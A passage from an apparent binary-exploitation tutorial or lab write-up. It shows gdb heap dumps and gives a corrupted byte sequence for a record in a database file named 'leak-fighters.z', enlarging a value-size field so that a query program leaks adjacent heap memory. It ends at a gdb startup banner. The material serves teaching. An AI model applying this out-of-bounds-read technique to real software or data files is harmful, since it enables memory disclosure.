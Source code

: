 ```
0x555555561790:	0x0	0x0
0x5555555617a0:	0x0	0x0
0x5555555617b0:	0x0	0x0
0x5555555617c0:	0x0	0x0
0x5555555617d0:	0x0	0x0
0x5555555617e0:	0x0	0x0
0x5555555617f0:	0x0	0x0
0x555555561800:	0x0	0x0
0x555555561810:	0x0	0x0
0x555555561820:	0x0	0x0
gef➤  vmmap 0x5555555616f0
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555559000 0x000055555557a000 0x0000000000000000 rw- [heap]
gef➤  x/s $rax
0x5555555616f0:	"kamehameha"
```

Now here, we see that the actual ptr returned is a heap ptr, to the string `kamehameha`, the record body we were querying for. Now when we leak the records, we'll be able to see the leaked data here, past the `kamehameha`.

Now for the actual record corruption. For this, I will simply expand the size of the value for the gohan record. For this, I will edit the `gohan` record (of the `leak-fighters.z` file) to be this series of bytes:

```
C8 AE 00 00 00 00 00 00 00 00 03 00 05 2A 67 6F 68 61 6E 6B 61 6D 65 68 61 6D 65 68 61 00 00 00
```

Basically, we just replaced the size of the value (at offset `0x8114d`) from `0x0A` to be `0x2A`.

Which looks like this (database_records_leak.png):

![Record Corrupted](database_records_leak.png)

If you don't feel like doing it, I have a spare copy you can just use in this POC:
```
$	cp backup-leak-fighters.z leak-fighters.z
```

And with that, when we query the record again, we see this:

```
gdb ./database_querying 
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

```